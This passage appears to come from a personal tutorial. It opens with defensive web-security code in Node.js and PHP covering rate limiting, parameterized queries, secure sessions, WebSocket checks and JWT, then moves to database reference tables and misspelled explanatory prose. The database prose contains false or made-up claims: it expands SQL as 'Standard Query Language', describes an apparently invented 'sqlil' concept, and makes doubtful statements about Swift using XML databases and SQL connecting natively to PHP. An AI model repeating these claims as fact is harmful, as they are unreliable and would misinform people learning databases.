const rateLimit = require('express-rate-limit');
const helmet = require('helmet');
const app = express();

// Apply security headers
app.use(helmet());

// Basic rate limiting
const limiter = rateLimit({
  windowMs: 15 * 60 * 1000, // 15 minutes
  max: 100, // Limit each IP to 100 requests per windowMs
  standardHeaders: true, // Return rate limit info in the `RateLimit-*` headers
  legacyHeaders: false, // Disable the `X-RateLimit-*` headers
  message: 'Too many requests from this IP, please try again after 15 minutes'
});

// Apply rate limiting to all requests
app.use(limiter);

// More strict rate limiting for authentication endpoints
const loginLimiter = rateLimit({
  windowMs: 60 * 60 * 1000, // 1 hour
  max: 5, // 5 failed attempts per hour
  skipSuccessfulRequests: true, // Only count failed requests
});

app.use('/api/login', loginLimiter);

// Add request timeout
app.use((req, res, next) => {
  // Set timeout to 30 seconds
  req.setTimeout(30000, () => {
    res.status(408).send('Request Timeout');
  });
  next();
});
```

### Preventing SQL Injections

```javascript
// Secure database operations using parameterized queries
const mysql = require('mysql2/promise');

async function getUserData(userId) {
  // Create connection with proper configuration
  const connection = await mysql.createConnection({
    host: process.env.DB_HOST,
    user: process.env.DB_USER,
    password: process.env.DB_PASSWORD,
    database: process.env.DB_NAME,
    ssl: {
      rejectUnauthorized: true
    }
  });
  
  try {
    // Use prepared statements with placeholders
    const [rows] = await connection.execute(
      'SELECT id, username, email FROM users WHERE id = ?',
      [userId]
    );
    
    return rows[0];
  } catch (error) {
    console.error('Database error:', error);
    throw new Error('Database operation failed');
  } finally {
    // Always close connection
    await connection.end();
  }
}
```

### Secure PHP Implementation

```php
<?php
// Secure PHP application that prevents injections

// Configuration (store in a separate file outside web root)
$config = [
    'db_host' => getenv('DB_HOST'),
    'db_user' => getenv('DB_USER'),
    'db_pass' => getenv('DB_PASS'),
    'db_name' => getenv('DB_NAME')
];

// Database connection using PDO
function getDbConnection() {
    global $config;
    
    try {
        $dsn = "mysql:host={$config['db_host']};dbname={$config['db_name']};charset=utf8mb4";
        $options = [
            PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION,
            PDO::ATTR_DEFAULT_FETCH_MODE => PDO::FETCH_ASSOC,
            PDO::ATTR_EMULATE_PREPARES => false,
        ];
        
        return new PDO($dsn, $config['db_user'], $config['db_pass'], $options);
    } catch (PDOException $e) {
        // Log error securely (not exposing details to users)
        error_log("Database connection error: " . $e->getMessage());
        return false;
    }
}

// Secure search implementation
function secureSearch($query) {
    $db = getDbConnection();
    if (!$db) {
        return ['error' => 'Service temporarily unavailable'];
    }
    
    try {
        // Prepared statement with parameter binding
        $stmt = $db->prepare("SELECT * FROM products WHERE name LIKE :search LIMIT 50");
        $stmt->execute(['search' => '%' . $query . '%']);
        
        return $stmt->fetchAll();
    } catch (PDOException $e) {
        error_log("Search query error: " . $e->getMessage());
        return ['error' => 'Search failed'];
    }
}

// Safe include with whitelist validation
function safeInclude($page) {
    // Define strict whitelist of allowed pages
    $allowedPages = [
        'home' => 'pages/home.php',
        'about' => 'pages/about.php',
        'contact' => 'pages/contact.php',
        'products' => 'pages/products.php'
    ];
    
    if (isset($allowedPages[$page])) {
        include $allowedPages[$page];
    } else {
        include 'pages/404.php';
    }
}

// Process search form
$searchResults = [];
$searchQuery = '';

if (isset($_GET['query'])) {
    // Input validation and sanitization
    $searchQuery = filter_input(INPUT_GET, 'query', FILTER_SANITIZE_SPECIAL_CHARS);
    if (strlen($searchQuery) >= 3) {
        $searchResults = secureSearch($searchQuery);
    } else {
        $searchResults = ['notice' => 'Search term must be at least 3 characters'];
    }
}

// Safe page inclusion
if (isset($_GET['page'])) {
    $page = filter_input(INPUT_GET, 'page', FILTER_SANITIZE_SPECIAL_CHARS);
    safeInclude($page);
} else {
    safeInclude('home');
}
?>
```

### Preventing Session Attacks

```javascript
// Express.js with secure session configuration
const express = require('express');
const session = require('express-session');
const crypto = require('crypto');
const app = express();

// Generate a strong random secret for each server start
const sessionSecret = crypto.randomBytes(64).toString('hex');

// Configure secure sessions
app.use(session({
  secret: sessionSecret,
  name: '__Secure-SessionID', // Custom cookie name
  cookie: {
    secure: true, // Require HTTPS
    httpOnly: true, // Prevent JavaScript access
    sameSite: 'strict', // Prevent CSRF
    maxAge: 3600000, // 1 hour expiry
    domain: 'yourapp.com',
    path: '/'
  },
  resave: false,
  saveUninitialized: false,
  // Use a secure session store like Redis for production
  // store: new RedisStore({ client: redisClient })
}));

// CSRF protection middleware
const csrfProtection = require('csurf')({
  cookie: {
    secure: true,
    httpOnly: true,
    sameSite: 'strict',
    maxAge: 3600000
  }
});

// Apply CSRF protection to state-changing routes
app.post('/api/user/update', csrfProtection, (req, res) => {
  // CSRF token is automatically validated
  // If invalid, middleware will return 403 Forbidden
  
  // Proceed with update
});

// Require CSRF token for templates
app.get('/profile', csrfProtection, (req, res) => {
  // Include token in rendered page
  res.render('profile', { csrfToken: req.csrfToken() });
});

// Session rotation after important actions
app.post('/api/password/change', csrfProtection, async (req, res) => {
  // Process password change
  
  // Generate new session to prevent session fixation
  const originalSession = { ...req.session };
  req.session.regenerate((err) => {
    if (err) {
      return res.status(500).json({ error: 'Session regeneration failed' });
    }
    
    // Preserve necessary session data
    req.session.userId = originalSession.userId;
    req.session.username = originalSession.username;
    
    // Add a timestamp for session age verification
    req.session.createdAt = Date.now();
    
    res.json({ success: true });
  });
});
```

### Preventing Socket Packet Attacks

```javascript
// Secure WebSocket Server
const https = require('https');
const fs = require('fs');
const WebSocket = require('ws');

// Set up HTTPS server with proper certificates
const server = https.createServer({
  cert: fs.readFileSync('/path/to/cert.pem'),
  key: fs.readFileSync('/path/to/key.pem')
});

// Create WebSocket server attached to HTTPS
const wss = new WebSocket.Server({ 
  server,
  // Specify allowed origins
  verifyClient: (info) => {
    const origin = info.origin || info.req.headers.origin;
    const allowedOrigins = [
      'https://yourdomain.com',
      'https://app.yourdomain.com'
    ];
    
    return allowedOrigins.includes(origin);
  }
});

// Authentication middleware
const authenticateWebSocket = (request) => {
  // Extract token from request
  const token = new URL(request.url, 'https://dummy.com').searchParams.get('token');
  
  // Verify token (implementation depends on your auth system)
  try {
    const decoded = verifyToken(token);
    return { authenticated: true, user: decoded };
  } catch (err) {
    return { authenticated: false };
  }
};

// Track connection counts for rate limiting
const ipConnections = new Map();

// Connection handling with security measures
wss.on('connection', function connection(ws, req) {
  // Check authentication
  const auth = authenticateWebSocket(req);
  if (!auth.authenticated) {
    ws.close(4000, 'Authentication required');
    return;
  }
  
  // Rate limiting by IP
  const ip = req.socket.remoteAddress;
  const currentConnections = ipConnections.get(ip) || 0;
  
  if (currentConnections >= 5) {
    ws.close(4000, 'Too many connections');
    return;
  }
  
  ipConnections.set(ip, currentConnections + 1);
  
  // Set maximum message size
  ws.maxPayload = 1024 * 16; // 16KB max message size
  
  // Store user data for access control
  ws.user = auth.user;
  
  // Handle messages with validation
  ws.on('message', function(message) {
    try {
      // Parse message with size validation
      if (message.length > ws.maxPayload) {
        throw new Error('Message too large');
      }
      
      const data = JSON.parse(message);
      
      // Validate message structure
      if (!data.type || typeof data.type !== 'string') {
        throw new Error('Invalid message format');
      }
      
      // Apply rate limiting for messages
      // (implementation of rate limiting logic)
      
      // Process message based on type with proper access control
      switch (data.type) {
        case 'broadcast':
          // Check permissions
          if (ws.user.role !== 'admin') {
            ws.send(JSON.stringify({ error: 'Unauthorized' }));
            return;
          }
          
          // Sanitize message before broadcast
          const sanitizedMessage = sanitizeMessage(data.message);
          
          // Broadcast to authorized clients
          wss.clients.forEach(function(client) {
            if (client.readyState === WebSocket.OPEN) {
              client.send(JSON.stringify({
                type: 'broadcast',
                from: ws.user.username,
                message: sanitizedMessage,
                timestamp: Date.now()
              }));
            }
          });
          break;
          
        // Other message types...
      }
    } catch (err) {
      // Handle parsing errors
      ws.send(JSON.stringify({ error: 'Invalid message' }));
    }
  });
  
  // Clean up when connection closes
  ws.on('close', function() {
    // Remove from connection tracking
    const currentConnections = ipConnections.get(ip);
    if (currentConnections > 0) {
      ipConnections.set(ip, currentConnections - 1);
    }
  });
});

// Helper function to sanitize messages
function sanitizeMessage(message) {
  // Implement message sanitization
  return String(message)
    .replace(/</g, '&lt;')
    .replace(/>/g, '&gt;');
}

// Start server on TLS port
server.listen(443);
```

### Best Practices for API Security

1. **Use JWT for Authentication**

```javascript
// Secure JWT implementation
const jwt = require('jsonwebtoken');
const crypto = require('crypto');

// Generate a strong JWT secret
const jwtSecret = process.env.JWT_SECRET || crypto.randomBytes(64).toString('hex');

// Create JWT with proper claims
function generateToken(user) {
  return jwt.sign(
    {
      sub: user.id,
      username: user.username,
      role: user.role
    },
    jwtSecret,
    {
      expiresIn: '1h',     // Short expiry time
      issuer: 'your-api',
      audience: 'your-app',
      jwtid: crypto.randomBytes(16).toString('hex') // Unique token ID
    }
  );
}

// Verify JWT middleware
function authenticateJWT(req, res, next) {
  const authHeader = req.headers.authorization;
  
  if (!authHeader || !authHeader.startsWith('Bearer ')) {
    return res.status(401).json({ error: 'Authorization header required' });
  }
  
  const token = authHeader.split(' ')[1];
  
  try {
    const decoded = jwt.verify(token, jwtSecret, {
      issuer: 'your-api',
      audience: 'your-app'
    });
    
    // Store user info for route handlers
    req.user = decoded;
    
    // Check token freshness (example: require tokens less than 15min old for sensitive operations)
    const tokenAge = Date.now() - (decoded.iat * 1000);
    if (req.path.startsWith('/api/sensitive/') && tokenAge > 900000) {
      return res.status(401).json({ error: 'Token too old for this operation' });
    }
    
    next();
  } catch (err) {
    return res.status(403).json({ error: 'Invalid or expired token' });
  }
}
```

2. **API Rate Limiting**

```javascript
const express = require('express');
const rateLimit = require('express-rate-limit');
const RedisStore = require('rate-limit-redis');
const Redis = require('ioredis');

const app = express();

// Redis client for distributed rate limiting
const redisClient = new Redis({
  host: process.env.REDIS_HOST,
  port: process.env.REDIS_PORT,
  password: process.env.REDIS_PASSWORD,
  enableTLS: true
});

// General API rate limit (higher threshold)
const apiLimiter = rateLimit({
  store: new RedisStore({
    // Use Redis as a store for better tracking across multiple server instances
    sendCommand: (...args) => redisClient.call(...args)
  }),
  windowMs: 15 * 60 * 1000, // 15 minutes
  max: 100, // 100 requests per 15 minutes
  standardHeaders: true,
  legacyHeaders: false,
  // Custom handler for rate limit exceeded
  handler: (req, res) => {
    res.status(429).json({
      error: 'Rate limit exceeded',
      retryAfter: Math.ceil(req.rateLimit.resetTime / 1000 - Date.now() / 1000)
    });
  }
});

// Endpoint-specific limits (lower threshold for certain operations)
const userCreationLimiter = rateLimit({
  store: new RedisStore({
    sendCommand: (...args) => redisClient.call(...args)
  }),
  windowMs: 60 * 60 * 1000, // 1 hour
  max: 5, // 5 user creations per hour
  standardHeaders: true,
  legacyHeaders: false
});

// Apply general rate limiting to all API routes
app.use('/api/', apiLimiter);

// Apply specific limits to certain endpoints
app.use('/api/users/create', userCreationLimiter);
```

### Overall Best Practices Summary

1. **Input Validation and Sanitization**
    - Validate all input on the server side, regardless of client-side validation
    - Use strict typing and schema validation (e.g., with libraries like Joi, Yup, or Zod)
    - Sanitize user input to prevent XSS attacks

2. **Use HTTPS Everywhere**
    - Redirect HTTP to HTTPS
    - Use strong TLS configurations (TLS 1.2+)
    - Implement HSTS (HTTP Strict Transport Security)

3. **Implement Proper Authentication and Authorization**
    - Use secure password hashing (e.g., bcrypt, Argon2)
    - Implement MFA where possible
    - Follow the principle of least privilege
    - Use short-lived access tokens with refresh tokens

4. **Apply Security Headers**
    - Content-Security-Policy
    - X-Content-Type-Options
    - X-Frame-Options
    - Referrer-Policy

5. **Manage Dependencies**
    - Regularly update dependencies
    - Use dependency scanning tools
    - Remove unused dependencies

6. **Implement Logging and Monitoring**
    - Log security-relevant events
    - Implement automated alerting
    - Use tools like ELK stack, Prometheus, or commercial SIEM solutions

7. **Have a Security Response Plan**
    - Create an incident response procedure
    - Conduct regular security testing
    - Maintain a responsible disclosure policy


# Databasing 
> in this section we will cover ther dos and do nont of buildg sql servers

# sql vs no no-sql vs sqlil
> sql stands for a Standard Query Language, and no-sql stands for not only sql. sqlil is a relitivly new concept; and refers to sql like databases. 
> so whats the diffrennce?
> well a sql langage allows users to create, modifym and delete tables. A sql db looks similar to a spread sheet, and follows symple typing rules. 

## SQL Data Types Reference
| Type               | Basic Type     | Languages                             | Description                                                                                                               |
|--------------------|----------------|---------------------------------------|---------------------------------------------------------------------------------------------------------------------------|
| INTEGER            | Numeric        | All SQL                               | Whole numbers without decimal places. Common variants include SMALLINT, INT, BIGINT for different storage sizes.          |
| TINYINT            | Numeric        | MySQL, SQL Server                     | Very small integers, typically 1 byte (0-255 unsigned, -128 to 127 signed).                                               |
| SMALLINT           | Numeric        | All SQL                               | Small integers, typically 2 bytes (-32,768 to 32,767).                                                                    |
| MEDIUMINT          | Numeric        | MySQL                                 | Medium-sized integers, typically 3 bytes (-8,388,608 to 8,388,607).                                                       |
| INT/INTEGER        | Numeric        | All SQL                               | Standard integers, typically 4 bytes (-2,147,483,648 to 2,147,483,647).                                                   |
| BIGINT             | Numeric        | All SQL                               | Large integers, typically 8 bytes (-9,223,372,036,854,775,808 to 9,223,372,036,854,775,807).                              |
| DECIMAL/NUMERIC    | Numeric        | All SQL                               | Fixed-precision numbers with user-defined precision and scale. Used for financial calculations requiring exact precision. |
| FLOAT              | Numeric        | All SQL                               | Single-precision floating-point number, typically 4 bytes.                                                                |
| REAL               | Numeric        | PostgreSQL, SQL Server                | Single-precision floating-point number, implementation-dependent size.                                                    |
| DOUBLE             | Numeric        | MySQL, PostgreSQL                     | Double-precision floating-point number, typically 8 bytes.                                                                |
| MONEY              | Numeric        | SQL Server, PostgreSQL                | Currency values with fixed precision, optimized for financial calculations.                                               |
| BOOLEAN/BOOL       | Logical        | PostgreSQL, MySQL, SQLite             | Stores TRUE, FALSE, or NULL values. In some databases implemented as TINYINT.                                             |
| BIT                | Logical        | SQL Server, MySQL                     | Stores bit values (0 or 1). In MySQL can store up to 64 bits.                                                             |
| CHAR               | String         | All SQL                               | Fixed-length character strings. Padded with spaces if content is shorter than defined length.                             |
| VARCHAR            | String         | All SQL                               | Variable-length character strings with a maximum length limit. More storage-efficient than CHAR.                          |
| TINYTEXT           | String         | MySQL                                 | Variable-length string with maximum length of 255 characters.                                                             |
| TEXT               | String         | PostgreSQL, MySQL, SQLite             | Variable unlimited-length character string for text storage (up to ~65KB in MySQL).                                       |
| MEDIUMTEXT         | String         | MySQL                                 | Variable-length string with maximum length of ~16MB.                                                                      |
| LONGTEXT           | String         | MySQL                                 | Variable-length string with maximum length of ~4GB.                                                                       |
| NCHAR              | String         | SQL Server, Oracle                    | Fixed-length Unicode character strings.                                                                                   |
| NVARCHAR           | String         | SQL Server, Oracle                    | Variable-length Unicode character strings.                                                                                |
| NTEXT              | String         | SQL Server                            | Variable-length Unicode string (deprecated in newer SQL Server versions).                                                 |
| BINARY             | Binary         | All SQL                               | Fixed-length binary data.                                                                                                 |
| VARBINARY          | Binary         | All SQL                               | Variable-length binary data with a maximum length.                                                                        |
| TINYBLOB           | Binary         | MySQL                                 | Binary data up to 255 bytes.                                                                                              |
| BLOB               | Binary         | All SQL                               | Binary data for storing files, images (~65KB in MySQL).                                                                   |
| MEDIUMBLOB         | Binary         | MySQL                                 | Binary data up to ~16MB.                                                                                                  |
| LONGBLOB           | Binary         | MySQL                                 | Binary data up to ~4GB.                                                                                                   |
| DATE               | Date/Time      | All SQL                               | Stores date values (year, month, day) without time component.                                                             |
| TIME               | Date/Time      | All SQL                               | Stores time values (hour, minute, second) without date component.                                                         |
| DATETIME           | Date/Time      | MySQL, SQL Server                     | Stores both date and time values (no timezone).                                                                           |
| TIMESTAMP          | Date/Time      | All SQL                               | Stores date and time, often with timezone handling. Commonly auto-updates on row modification.                            |
| INTERVAL           | Date/Time      | PostgreSQL, Oracle                    | Stores period of time (years, months, days, hours, etc.).                                                                 |
| YEAR               | Date/Time      | MySQL                                 | Stores year values, either as 2 or 4 digits.                                                                              |
| JSON               | Structured     | PostgreSQL, MySQL, Oracle, SQL Server | Stores JSON documents that can be queried and indexed.                                                                    |
| JSONB              | Structured     | PostgreSQL                            | Binary JSON format with indexing support.                                                                                 |
| XML                | Structured     | SQL Server, Oracle, PostgreSQL        | Stores XML documents with specialized functions for XML processing.                                                       |
| ARRAY              | Collection     | PostgreSQL, Oracle                    | Stores arrays of other data types.                                                                                        |
| HSTORE             | Collection     | PostgreSQL                            | Stores key-value pairs.                                                                                                   |
| ENUM               | Special        | MySQL, PostgreSQL                     | Stores one value from a predefined list of allowed values.                                                                |
| SET                | Special        | MySQL                                 | Stores zero or more values from a predefined list.                                                                        |
| UUID               | Special        | PostgreSQL, MySQL                     | Stores universally unique identifiers.                                                                                    |
| CIDR               | Network        | PostgreSQL                            | Stores IPv4 or IPv6 network addresses.                                                                                    |
| INET               | Network        | PostgreSQL                            | Stores IPv4 or IPv6 host addresses.                                                                                       |
| MACADDR            | Network        | PostgreSQL                            | Stores MAC addresses.                                                                                                     |
| GEOMETRY           | Spatial        | PostgreSQL, MySQL, SQL Server         | Stores geometric data for spatial operations.                                                                             |
| POINT              | Spatial        | PostgreSQL, MySQL                     | Stores a point in a plane.                                                                                                |
| LINESTRING         | Spatial        | PostgreSQL, MySQL                     | Stores a sequence of points.                                                                                              |
| POLYGON            | Spatial        | PostgreSQL, MySQL                     | Stores a polygon.                                                                                                         |
| MULTIPOINT         | Spatial        | PostgreSQL, MySQL                     | Stores a collection of points.                                                                                            |
| MULTILINESTRING    | Spatial        | PostgreSQL, MySQL                     | Stores a collection of linestrings.                                                                                       |
| MULTIPOLYGON       | Spatial        | PostgreSQL, MySQL                     | Stores a collection of polygons.                                                                                          |
| GEOMETRYCOLLECTION | Spatial        | PostgreSQL, MySQL                     | Stores a collection of geometry objects.                                                                                  |
| GEOGRAPHY          | Spatial        | SQL Server                            | Stores ellipsoidal (round-earth) data.                                                                                    |
| CURSOR             | Procedural     | SQL Server, Oracle                    | Reference to a cursor.                                                                                                    |
| ROWID              | Special        | Oracle                                | Unique identifier for a row in a table.                                                                                   |
| UROWID             | Special        | Oracle                                | Universal rowid for rows in index-organized tables.                                                                       |
| REGCLASS           | Special        | PostgreSQL                            | Object identifier (OID) for a table.                                                                                      |
| SERIAL             | Auto-increment | PostgreSQL                            | Auto-incrementing integer (similar to AUTO_INCREMENT in MySQL).                                                           |
| SMALLSERIAL        | Auto-increment | PostgreSQL                            | Auto-incrementing small integer.                                                                                          |
| BIGSERIAL          | Auto-increment | PostgreSQL                            | Auto-incrementing big integer.                                                                                            |
| GENERATED          | Auto-increment | SQL Server, Oracle                    | Generated/computed values based on expressions.                                                                           |

> above are a whole list of data types, and the langages they belong to. 

## Database Languages and Classifications

| Database                      | Type        | Model                              | Primary Language/Query Method               | Description                                                                                         |
|-------------------------------|-------------|------------------------------------|---------------------------------------------|-----------------------------------------------------------------------------------------------------|
| MySQL                         | SQL         | Relational                         | SQL                                         | Open-source relational database management system, known for web applications, ACID compliant.      |
| PostgreSQL                    | SQL         | Relational                         | SQL                                         | Advanced open-source object-relational database with strong standards compliance and extensibility. |
| Oracle                        | SQL         | Relational                         | SQL, PL/SQL                                 | Enterprise-grade commercial RDBMS with extensive features for large-scale applications.             |
| Microsoft SQL Server          | SQL         | Relational                         | T-SQL                                       | Microsoft's enterprise relational database system with tight Windows integration.                   |
| SQLite                        | SQL         | Relational                         | SQL                                         | Self-contained, serverless, zero-configuration, embedded relational database engine.                |
| MariaDB                       | SQL         | Relational                         | SQL                                         | Community-developed fork of MySQL focused on open-source commitment.                                |
| MongoDB                       | NoSQL       | Document                           | MQL (MongoDB Query Language), JavaScript    | Document-oriented database using JSON-like documents with dynamic schemas.                          |
| Cassandra                     | NoSQL       | Wide-Column                        | CQL (Cassandra Query Language)              | Distributed NoSQL database designed for high scalability and availability.                          |
| Redis                         | NoSQL       | Key-Value                          | Redis commands, Lua                         | In-memory data structure store used as database, cache, and message broker.                         |
| DynamoDB                      | NoSQL       | Key-Value, Document                | DynamoDB API, PartiQL                       | Amazon's fully managed proprietary NoSQL database with automatic scaling.                           |
| Couchbase                     | NoSQL       | Document                           | SQL++ (N1QL)                                | Distributed NoSQL document database with SQL-like query language.                                   |
| Neo4j                         | NoSQL       | Graph                              | Cypher                                      | Graph database management system with native graph storage and processing.                          |
| Elasticsearch                 | NoSQL       | Document                           | Query DSL, SQL                              | Distributed search and analytics engine built on Lucene.                                            |
| HBase                         | NoSQL       | Wide-Column                        | Java API, HBase Shell                       | Hadoop database for big data with random, real-time read/write access.                              |
| InfluxDB                      | NoSQL       | Time Series                        | InfluxQL, Flux                              | Purpose-built time series database for high-write-load time series data.                            |
| Firebase Realtime Database    | NoSQL       | Document                           | Firebase API, JSON                          | Cloud-hosted NoSQL database with real-time data synchronization.                                    |
| CouchDB                       | NoSQL       | Document                           | HTTP API, JavaScript                        | Document database with RESTful HTTP API and multi-master replication.                               |
| ArangoDB                      | Multi-model | Document, Graph, Key-Value         | AQL (ArangoDB Query Language)               | Multi-model database supporting documents, graphs, and key-value data models.                       |
| Cosmos DB                     | Multi-model | Document, Graph, Key-Value, Column | SQL, MongoDB API, Gremlin, Cassandra, Table | Microsoft's globally distributed multi-model database service.                                      |
| RavenDB                       | NoSQL       | Document                           | RQL (Raven Query Language)                  | Document database with ACID properties and automatic indexing.                                      |
| IBM Db2                       | SQL         | Relational                         | SQL                                         | Enterprise relational database with AI capabilities and hybrid deployment options.                  |
| SAP HANA                      | SQL         | Relational, Column-oriented        | SQL, SQLScript                              | In-memory database designed for high-speed analytics and transactions.                              |
| Teradata                      | SQL         | Relational                         | SQL                                         | Commercial database designed for data warehousing and big data analytics.                           |
| Snowflake                     | SQL         | Relational                         | SQL                                         | Cloud data platform offering data warehouse-as-a-service.                                           |
| Firebird                      | SQL         | Relational                         | SQL                                         | Open-source SQL relational database with strong ACID compliance.                                    |
| Amazon Redshift               | SQL         | Relational, Column-oriented        | SQL                                         | Cloud data warehouse service based on PostgreSQL.                                                   |
| Google BigQuery               | SQL         | Relational, Column-oriented        | SQL                                         | Google's serverless, highly scalable data warehouse.                                                |
| Apache Druid                  | NoSQL       | Column-oriented, Time Series       | Druid SQL, JSON-based queries               | Real-time analytics database designed for fast slice-and-dice analytics.                            |
| Timescale DB                  | SQL         | Time Series, Relational            | SQL                                         | Time-series database built on PostgreSQL.                                                           |
| FaunaDB                       | Multi-model | Document, Graph, Relational        | FQL (Fauna Query Language), GraphQL         | Distributed, ACID-compliant, multi-model database.                                                  |
| ClickHouse                    | SQL         | Column-oriented                    | SQL                                         | Open-source column-oriented database for real-time analytics.                                       |
| Memcached                     | NoSQL       | Key-Value                          | Simple text protocol                        | Distributed memory caching system for speeding up dynamic applications.                             |
| etcd                          | NoSQL       | Key-Value                          | gRPC API                                    | Distributed reliable key-value store for distributed systems configuration.                         |
| Dgraph                        | NoSQL       | Graph                              | GraphQL+-, DQL                              | Native GraphQL database with a graph backend.                                                       |
| Amazon Aurora                 | SQL         | Relational                         | SQL                                         | AWS-optimized relational database compatible with MySQL and PostgreSQL.                             |
| Google Cloud Spanner          | SQL         | Relational                         | SQL                                         | Google's globally distributed, strongly consistent database service.                                |
| OrientDB                      | Multi-model | Graph, Document                    | SQL, Gremlin                                | Multi-model database supporting graph and document models.                                          |
| H2                            | SQL         | Relational                         | SQL                                         | Java SQL database, embedded or server mode with a small footprint.                                  |
| SingleStore (formerly MemSQL) | SQL         | Relational                         | SQL                                         | Distributed, relational database for real-time analytics and transactions.                          |

## Relational, Key-Value, Graph, Document, ect.
> databases do not all look or feel the same. SQL for the most part runs on the datat-driven paradime, while most standard coding languages (java, c++, objective c, swift, ts/node, ect...) use Object orented paridimes (OOP). 
> This makes lerning db langages ofen dificult; however many high level codign langages ofer more OOP-like feturs fro the creation of sql db
> For most projects i recomand SQLITE, POSTSQL, or MYSQL as they are relatinal, and offer fetures that make connecting and usage symple. 
### Database Models Reference

| Model                                | Description                                                                          | Key Characteristics                                                              | Example Databases                           | Best Use Cases                                                                                       |
|--------------------------------------|--------------------------------------------------------------------------------------|----------------------------------------------------------------------------------|---------------------------------------------|------------------------------------------------------------------------------------------------------|
| Relational                           | Organizes data into tables with rows and columns, using relationships between tables | ACID compliance, structured schema, uses SQL, supports joins and complex queries | MySQL, PostgreSQL, Oracle, SQL Server       | Business applications, ERP systems, CRM, financial systems, scenarios requiring complex transactions |
| Document                             | Stores data in flexible, JSON-like documents where structure can vary                | Schema-less design, nested data structures, good for hierarchical data           | MongoDB, Couchbase, CouchDB, Firebase       | Content management, catalogs, user profiles, real-time big data applications                         |
| Key-Value                            | Simplest NoSQL model storing data as key-value pairs                                 | Extremely fast lookups, highly scalable, simple structure                        | Redis, DynamoDB, Memcached, etcd            | Caching, session management, shopping carts, leaderboards, real-time recommendations                 |
| Wide-Column                          | Stores data in tables with rows and dynamic columns                                  | Highly scalable, designed for massive datasets, flexible schema                  | Cassandra, HBase, Google Bigtable           | Time-series data, IoT applications, recommendation engines, fraud detection systems                  |
| Graph                                | Stores entities as nodes and relationships as edges                                  | Optimized for complex relationships and network analysis                         | Neo4j, JanusGraph, Amazon Neptune           | Social networks, recommendation engines, fraud detection, network analysis                           |
| Time Series                          | Optimized for data points indexed by time                                            | Efficient time-based queries, data retention policies                            | InfluxDB, TimescaleDB, Prometheus           | IoT sensors, monitoring applications, financial market data, event tracking                          |
| Search Engine                        | Specialized for text search and analysis                                             | Full-text search, relevance ranking, faceted search                              | Elasticsearch, Solr, Algolia                | Website search, log analysis, full-text search applications                                          |
| Vector                               | Stores and retrieves high-dimensional vectors                                        | Efficient similarity search, designed for AI/ML use cases                        | Pinecone, Milvus, Weaviate                  | AI applications, recommendation systems, image similarity, semantic search                           |
| Multi-model                          | Supports multiple data models in a single database                                   | Versatile, reduces need for multiple databases                                   | ArangoDB, CosmosDB, OrientDB                | Complex applications requiring different data models, microservices architectures                    |
| NewSQL                               | Combines SQL and NoSQL approaches                                                    | Horizontal scalability with ACID guarantees                                      | Google Spanner, CockroachDB, SingleStore    | Global applications requiring both scale and strong consistency                                      |
| Object-Oriented                      | Maps database objects directly to programming language objects                       | Reduces impedance mismatch, integrates with OOP                                  | ObjectDB, db4o, ObjectStore                 | Complex applications with intricate object relationships                                             |
| XML                                  | Stores data in XML format with hierarchical structure                                | Hierarchical data representation, supports XPath and XQuery                      | BaseX, eXist-db, MarkLogic                  | Publishing, document management, integration of heterogeneous data sources                           |
| Hierarchical                         | Organizes data in a tree-like structure with parent-child relationships              | Fast access to hierarchical data, rigid structure                                | IBM IMS, Windows Registry                   | Legacy enterprise systems, file systems, DNS                                                         |
| Network                              | Extension of hierarchical model allowing many-to-many relationships                  | Complex relationship modeling, navigational access                               | IDMS, IDS                                   | Complex manufacturing systems, bill of materials                                                     |
| Column-oriented                      | Stores data by column rather than by row                                             | Efficient for analytical queries, good compression                               | Vertica, ClickHouse, Amazon Redshift        | Data warehousing, business intelligence, analytical processing                                       |
| In-memory                            | Stores data primarily in RAM rather than on disk                                     | Extremely fast performance, real-time processing                                 | Redis, SAP HANA, MemSQL                     | Real-time analytics, caching, session stores, trading platforms                                      |
| Spatial                              | Optimized for storing and querying spatial data                                      | Spatial indexing, supports geometric operations                                  | PostGIS, MongoDB (with geospatial features) | GIS applications, location-based services, route planning                                            |
| Event Sourcing                       | Stores changes to application state as a sequence of events                          | Complete audit history, event replay capability                                  | EventStoreDB, Axon Server                   | Financial systems, audit-heavy applications, CQRS architectures                                      |
| RDF (Resource Description Framework) | Stores data as subject-predicate-object triples                                      | Semantic relationships, linked data                                              | AllegroGraph, Stardog, Apache Jena          | Knowledge graphs, semantic web applications, linked data projects                                    |

## coding
> In coding with sql we need some type of diver. A driver is basicily a link between two langages. This link can eiter be stated or undtated. In jave we use the jdbc driver; witch is a phisical driver (phisical as in you need to download it). A languge like node connects to a db via a driver as well; however there is no visibal link like in java.
> Some langages do not have inherant data base acsess. SQL for example can nacenltly connect to php and vise versa. We use php to connect to both sqlite and mysql databases. In node we get acsess to sqlite databases. However, in java there is no defalt db. In any db you need to have some sort of driver. 
> in swift we do not have a direct system to conect a database. We use XML to create a SQL-Like db. This offers a uniqe soloution to in app dbs, but oresents a ton of potental risk. XML is non-relatinal, non-standerd (used in tons of diffrent application, with diffrent documention, and units), and has a limited use case in databasing.

> so lets start by downlading a db driver [db download](#download) 

### download
[SQLite database](https://www.sqlite.org/download.html)
[Mysql database](https://www.mysql.com/downloads/)
[PostgreSQL database](https://www.postgresql.org/download/)

### Creating tables
> so this unsafely creates a table with the kays id, name, username, passord, create, update, and delet at flags. 
> the term primary key refers the most signifigant key. We use primary keys (PK) as a way to show the importance of a cell in relation to other databases
> the term forgen key revers to the relation from [1 table to another](#sql-forgen-key-relation)
 
> sqlite create table
```sqlite
CREATE TABLE user (
  id INTEGER PRIMARY KEY AUTOINCREMENT,
  name TEXT NOT NULL,
  username TEXT NOT NULL,
  password TEXT NOT NULL,
  created_at DATE DEFAULT CURRENT_TIMESTAMP,
  updated_at DATE DEFAULT CURRENT_TIMESTAMP,    
  deleted_at DATE DEFAULT NULL
)
```
> mysql/postgreSQL create table
```mysql
CREATE TABLE user (
  id INT AUTO_INCREMENT PRIMARY KEY,
  name TEXT NOT NULL,
  username VARCHAR(255) NOT NULL,
  password VARCHAR(255) NOT NULL,
  created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP,
  updated_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP ON UPDATE CURRENT_TIMESTAMP,
  deleted_at TIMESTAMP NULL
);
```
### inserting data
> inserting is quite symple
```sql
INSERT INTO user(name, username, password) VALUES ("", "", "");
```

### delteeing data
> deleting data
> if you want to hard delete a row
```sql
DELETE FROM user WHERE id = 1;
```
> soft delete
> *soft deleting* never hard delete potentialy incrimating user data. User fall under this pervew
